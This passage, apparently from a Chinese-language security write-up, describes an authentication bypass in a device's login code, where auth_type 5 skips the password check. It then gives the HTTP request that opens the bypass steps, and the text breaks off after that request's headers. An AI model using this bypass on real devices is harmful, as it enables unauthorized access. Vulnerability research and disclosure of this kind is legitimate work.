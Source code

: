 进入到0x0040c7d0

![img](./no_pwd.jpg)

进入到对应的函数我们可以看到当auth_type等于5时候是不需要调用`local_db_auth_check`函数检查密码的

### 免密登录的总结

1. 请求POST请求/auth获取`access_token`

```https
POST /auth HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cookie: __s_sessionid__=cei44sqaq2ok0gnni1rkpej6r2
Content-Length: 66
X-Timestamp: 1743977367
X-Authorization: 7d97a37478ae581af1190ce13bec50aee905ae30
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Origin: https://xxx.xxx.xxx.xxx:xxxx
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://xxx.xxx.xxx.xxx:xxxx/login.html?lang=zh_cn
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
```
